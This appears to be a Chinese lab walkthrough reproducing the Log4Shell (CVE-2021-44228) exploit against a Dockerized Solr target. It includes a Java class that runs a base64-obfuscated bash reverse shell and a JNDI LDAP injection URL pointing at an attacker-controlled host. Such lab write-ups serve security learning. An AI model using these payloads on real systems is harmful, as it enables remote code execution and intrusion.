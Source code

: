 #  Log4j2-CVE-2021-44228   
Black  天启互联网实验室   2023-12-26 19:54  
  
一、环境搭建  
> 机器：kali Linux  
> Java：jdk8  
> python：python3.7.x  
  
  
二、在docker里面搭建靶机环境  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/XpEvyXAhfbhdp4qmeuaeSl9XZ6icBht2BsTqN5XN6yE1laaVA1fpCUMQ46XM7LOMLcs2TftKLv9icwHjyPFbW2NA/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/XpEvyXAhfbhdp4qmeuaeSl9XZ6icBht2BIfAyicXB6AicBn7wJYntGbQtIeSKHSLRlGYrAgVF89s3OWCic9XsUta5w/640?wx_fmt=jpeg&from=appmsg "")  
  
三、访问  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/XpEvyXAhfbhdp4qmeuaeSl9XZ6icBht2B2LSJ9qFeeIsNWFax8ENAI9ZjHiaccxrFBGek9zsic6eb4vJf2bRyz3eQ/640?wx_fmt=jpeg&from=appmsg "")  
  
四、构造payload  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/XpEvyXAhfbhdp4qmeuaeSl9XZ6icBht2BR46ceLH47KYdVsAvCohvcO6j1dJZ3x8q0nS9HV2saePeKEQjdjxiaPQ/640?wx_fmt=jpeg&from=appmsg "")  
  
五、替换  
  
将上面构造好的反弹shell语句替换  
  
![](https://mmbiz.qpic.cn/mmbiz_png/XpEvyXAhfbhdp4qmeuaeSl9XZ6icBht2BNRRNrxQja4M1GmkDVW0yaU54b0MqOomCwlJ9F7UJkcLFVibdjvXpTYw/640?wx_fmt=png&from=appmsg "")  
> import java.lang.Runtime;import java.lang.Process;public class Exploit {     public Exploit(){             try{                
 Runtime.getRuntime().exec("bash -c 
{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxNy4xMjgvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}");                                }catch(Exception e){                                            e.printStackTrace();                                             }                }         public static void main(String[] argv){                         Exploit e = new Exploit();                            }}  
  
  
将上面文件放进Exploit.java文件，在Windows用javac进行编译成Exploit.class,记得切换成 jdk8！  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/XpEvyXAhfbhdp4qmeuaeSl9XZ6icBht2BWLt9YUQEQS4lRRT1GEBic3iao8JoviaKse04dSHp3HCNicWEVdkWpYRGRQ/640?wx_fmt=jpeg&from=appmsg "")  
  
然后放进kali里面查看  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/XpEvyXAhfbhdp4qmeuaeSl9XZ6icBht2BeDVq9RdLGElvibMg0SpDVdCoC4eqtgxfc4sXL4FDlKJia2sbauMrBNSg/640?wx_fmt=jpeg&from=appmsg "")  
  
六、开启恶意站点  
  
用python在含有java.class开启http服务  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/XpEvyXAhfbhdp4qmeuaeSl9XZ6icBht2BB8Lgv6NCrIjMu7mGsVfic2mRaUxicdO4MOCrwn9SCRcHIaWegwayWJWA/640?wx_fmt=jpeg&from=appmsg "")  
  
访问一下，看看效果  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/XpEvyXAhfbhdp4qmeuaeSl9XZ6icBht2B5cficu9gMnFGywfAnhOLXys76jRLbicicHQNeKL6ibfyeJRy2hDQIxAibkA/640?wx_fmt=jpeg&from=appmsg "")  
  
七、用marshalsec-0.0.3-SNAPSHOT-all.jar插件开启LADP监听  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/XpEvyXAhfbhdp4qmeuaeSl9XZ6icBht2BfxOBq0msLHIde3tA7RU40QtlFFjuEhh45cexAmBicy7jKej0Tla53hA/640?wx_fmt=jpeg&from=appmsg "")  
  
八、开启监听端口  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/XpEvyXAhfbhdp4qmeuaeSl9XZ6icBht2BmHHbQ2eBfUMtgia9CXWKzxKNiaK9wlwzpJWxyAuGBP30MlrruWaXaN1w/640?wx_fmt=jpeg&from=appmsg "")  
  
九、传入恶意参数  
  
http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://192.168.217.128:1389/Exploit}  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/XpEvyXAhfbhdp4qmeuaeSl9XZ6icBht2BFXicfPoQ3eGvN0MKKUFlMGPMAjsIkYqibiaIIxXQZGaeia8s3xxZPtsJ3g/640?wx_fmt=jpeg&from=appmsg "")  
  
十、查看效果   
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/XpEvyXAhfbhdp4qmeuaeSl9XZ6icBht2B9vibUfopSRrkfdCrgLY2icMjDrdsWuM4u1ERoeMklJmfIl9gIY9k0w3Q/640?wx_fmt=jpeg&from=appmsg "")  
  
如上图所示即反弹shell成功！  
  
  
